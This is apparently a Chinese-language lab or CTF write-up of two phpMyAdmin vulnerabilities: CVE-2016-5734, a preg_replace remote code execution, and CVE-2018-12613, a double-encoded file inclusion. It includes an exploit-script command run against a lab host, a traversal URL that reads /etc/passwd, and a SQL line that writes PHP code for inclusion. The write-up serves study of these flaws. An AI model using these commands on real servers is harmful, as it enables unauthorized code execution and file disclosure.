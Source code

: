 #### CVE-2016-5734

> phpMyAdmin 4.0.x—4.6.2 远程代码执行漏洞（CVE-2016-5734）

在其查找并替换字符串功能中，将用户输入的信息拼接进preg\_replace函数第一个参数中。

在PHP5.4.7以前，preg\_replace的第一个参数可以利用\0进行截断，并将正则模式修改为e。众所周知，e模式的正则支持执行代码，此时将可构造一个任意代码执行漏洞。

影响版本：

```
4.0.10.16之前4.0.x版本
4.4.15.7之前4.4.x版本
4.6.3之前4.6.x版本（实际上由于该版本要求PHP5.5+，所以无法复现本漏洞）
```

因为目标环境使用root，所以我们可以创建一个临时数据库和数据表，进行漏洞利用。

CVE-2016-5734.py(kali虚拟机下运行)

* https://www.exploit-db.com/exploits/40185

```
python3 CVE-2016-5734.py -c 'system(id);' -u root -p root -d test http://node4.buuoj.cn:28303/
```

\-d是已经可以写的数据库，-c是待执行的PHP语句，如果没有指定表名，这个POC会创建一个名为prgpwn的表。

![image](img/phpmyadmin2.png)

#### CVE-2018-12613

> phpmyadmin 4.8.1 远程文件包含漏洞（CVE-2018-12613）

其index.php中存在一处文件包含逻辑，通过二次编码即可绕过检查，造成远程文件包含漏洞。

```
http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
```

**写入phpinfo**

找SQL界面执行语句如下：

`SELECT '<?php phpinfo()?>'`

![image](img/phpmyadmin3.png)
